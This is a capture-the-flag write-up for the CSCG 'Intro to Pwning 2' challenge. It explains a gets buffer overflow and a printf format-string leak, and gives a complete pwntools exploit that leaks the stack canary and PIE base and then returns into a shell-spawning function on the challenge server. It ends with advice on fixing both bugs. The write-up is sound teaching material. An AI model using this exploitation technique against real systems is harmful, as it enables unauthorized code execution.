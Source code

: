 # Intro to Pwning 2

When run, the binary first asks us for the password of stage 1.
It then asks for our witch name, which it then prints back to us and then asks us for a magic spell:
```
$ ./pwn2
Enter the password of stage 1:
CSCG{...}
Enter your witch name:
Hermione
┌───────────────────────┐
│ You are a Revenclaw!  │
└───────────────────────┘
Hermione enter your magic spell:
Expelliarmus
~ Protego!
```

Looking at the code we can quickly find two vulnerabilities:
1. All user input is read using the `gets` function, which doesn't have a length limit for the input and can therefore be used for buffer overflows.
2. The binary uses `printf` directly to print the entered name, which among other things allows us to leak data from the stack.

We can also find an unused function `WINgardium_leviosa` which opens a shell:
```cpp
void WINgardium_leviosa() {
    printf("┌───────────────────────┐\n");
    printf("│ You are a Slytherin.. │\n");
    printf("└───────────────────────┘\n");
    system("/bin/sh");
}
```

Looking at the `checksec` output we can see that the binary has everything enabled:
```
$ checksec pwn2
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Because there is a stack canary we can't simply use `gets` to overwrite the return address and jump to `WINgardium_leviosa` but
we can use `printf` to first leak the canary and at the same time find out the base address of the binary to circumvent `PIE`.
Then we can use the second `gets` to overwrite the return address and leave the canary. Because `gets` reads until newlines it also isn't a problem that the canary includes null-bytes.

Using `gdb` and `pwndbg` we can find out that the canary is at position `33` and the return address is at `35` on the stack when `printf` is called in `welcome`:
```
pwndbg> disass welcome
...
   0x0000000000000ce3 <+109>:   call   0x8a0 <printf@plt>
...
pwndbg> b *welcome+109
pwndbg> r
pwndbg> canary
AT_RANDOM = 0x7ffffffee4d8 # points to (not masked) global canary value
Canary    = 0xde09d8f9285a0c00
Found valid canaries on the stacks:
00:0000│   0x7ffffffee028 ◂— 0xde09d8f9285a0c00
pwndbg> stack 50
...
21:0108│          0x7ffffffee028 ◂— 0xde09d8f9285a0c00
22:0110│ rbp      0x7ffffffee030 —▸ 0x7ffffffee050 ◂— 0x0
23:0118│          0x7ffffffee038 —▸ 0x8000dc5 (main+55) ◂— mov    eax, 0 /* 0xff30e800000000b8 */
...
pwndbg> pi 0x21
33
```

Because `printf`'s first six variadic arguments are taken from registers we can leak the canary and return address using `%39$p %41$p` i.e. printing the 39th and 41st arguments to `printf` as pointers which will be the 33rd and 35th value on the stack:

```
Enter your witch name:
%39$p %41$p
┌───────────────────────┐
│ You are a Ravenclaw!  │
└───────────────────────┘
0x444db24d43e12200 0x7f2edd400dc5 enter your magic spell:
```

Taking another look with `gdb` we can also find out the offset between the return address and the `WINgardium_leviosa` function:
```
pwndbg> disass welcome
...
   0x0000000000000cfe <+136>:   ret
...
pwndbg> b *welcome+136
pwndbg> r
pwndbg> stack 1
00:0000│ rsp  0x7ffffffee038 —▸ 0x8000dc5 (main+55) ◂— mov    eax, 0 /* 0xff30e800000000b8 */
pwndbg> p WINgardium_leviosa
$1 = {<text variable, no debug info>} 0x8000b94 <WINgardium_leviosa>
pwndbg> pi 0x8000dc5 - 0x8000b94
561
```

and the offset between the buffer and the canary and return address for the second `gets`, which is `0x108` and `0x118` bytes:
```
pwndbg> disass AAAAAAAA
...
   0x0000000008000d34 <+53>:    call   0x8000900 <gets@plt>
   0x0000000008000d39 <+58>:    lea    rax,[rbp-0x110]
...
pwndbg> b *AAAAAAAA+58
pwndbg> c
Hermione enter your magic spell:
AAAAAAAA
pwndbg> stack 50
00:0000│ rax r8 r10 r11 rsp  0x7ffffffedf20 ◂— 'AAAAAAAA'
...
21:0108│                     0x7ffffffee028 ◂— 0xf4520a17440a6500
22:0110│ rbp                 0x7ffffffee030 —▸ 0x7ffffffee050 ◂— 0x0
23:0118│                     0x7ffffffee038 —▸ 0x8000dcf (main+65) ◂— nop     /* 0x841f0f2e66c3c990 */
```

We also have to start the input for the second `gets` with `"Expelliarmus\0"` because the program
compares the spell we give it and immediately exits if it's not `"Expelliarmus"`.
Luckily `strcmp` stops at null-bytes but `gets` reads until newlines so this is not a problem.

Trying the exploit will now give a `segfault` in `system` because of a misaligned stack
but we can just jump one instruction later into `WINgardium_leviosa` which will skip a `push`
instruction and align the stack correctly.

The final exploit now looks like this:
```python
##!/usr/bin/env python3

from pwn import *

PASSWORD = "CSCG{NOW_PRACTICE_MORE}"
WIN_ADDR = 0xb95
WELCOME_RET = 0xdc5

p = remote("hax1.allesctf.net", 9101)

p.recvuntil("Enter the password of stage 1:\n")
p.sendline(PASSWORD)

p.recvuntil("Enter your witch name:")
p.sendline("#%39$llu|%41$llu#")

p.recvuntil("#")
canary, ret_addr = map(int, p.recvuntil("#")[:-1].split(b"|"))

log.info(f"Leaked stack canary: {canary:#x}")
log.info(f"Leaked ret address: {ret_addr:#x}")

p.recvuntil(":")

ret_addr -= WELCOME_RET

payload = b"Expelliarmus\0".ljust(0x108)
payload += p64(canary)
payload += b"A" * 8
payload += p64(ret_addr + WIN_ADDR)

p.sendline(payload)
p.interactive()
```

And running it gives us a shell and the flag:
```
$ ./exploit.py
[+] Opening connection to hax1.allesctf.net on port 9101: Done
[*] Leaked stack canary: 0x213134df85335a00
[*] Leaked ret address: 0x56318aa0edc5
[*] Switching to interactive mode

~ Protego!
┌───────────────────────┐
│ You are a Slytherin.. │
└───────────────────────┘
$ cat flag
CSCG{NOW_GET_VOLDEMORT}
```

Clearly, it's better to follow the `man`-pages advice and `Never use gets(). [...] Use fgets() instead.`
And of course, letting users control the first argument of `printf` is equally bad.
Instead, `printf("%s", user_input)` should be used. Otherwise, even stack canaries can't help.
